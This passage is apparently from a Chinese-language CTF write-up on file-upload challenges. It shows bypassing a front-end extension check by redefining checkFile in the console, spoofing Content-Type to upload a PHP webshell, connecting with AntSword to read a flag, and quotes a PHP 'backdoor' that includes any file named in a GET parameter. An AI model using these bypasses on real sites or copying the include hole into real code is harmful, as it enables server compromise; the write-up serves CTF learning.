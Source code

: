 ```javascript
checkFile = function(){return true}
```

绕过前端的文件后缀名检测

再次点击上传返回：

```plaintext
提示：文件类型不正确，请重新上传！
```

直接修改请求中的`Content-Type`为`image/png`，发送请求，即可绕过后端验证。

![image-20240922095547715](image-20240922095547715.png)

返回如下：

```plaintext
UPLOAD_PATH 存在: ./upload
上传文件类型: image/png
临时文件路径: /tmp/phpnJFNmi
目标路径: ./upload/muma.php
文件移动成功
```

蚁剑连接后在根目录发现flag.txt

![image-20240922095757409](image-20240922095757409.png)

### 笑傲上传

尝试上传一句话木马，同样有一个前端检测，同样控制台输入：

```javascript
checkFile = function(){return true}
```

绕过前端的后缀名检测。

返回如下提示：

```plaintext
提示：文件未知，上传失败！
```

仿照上一题修改请求的`Content-Type`，无法绕过。

已知可以上传图片，传个图片马试试。

![image-20240922100301153](image-20240922100301153.png)

上传成功。

但是后缀被修改为了.jpg

这里上传页面还有一个神秘链接，点进去发现是一个php文件的源码：

```php
<?php
header("Content-Type:text/html;charset=utf-8");
$file = $_GET['file'];
if(isset($file)){
    include $file;
}else{
    show_source(__file__);
}
/*这里是妙妙屋的后门*/
?>
```
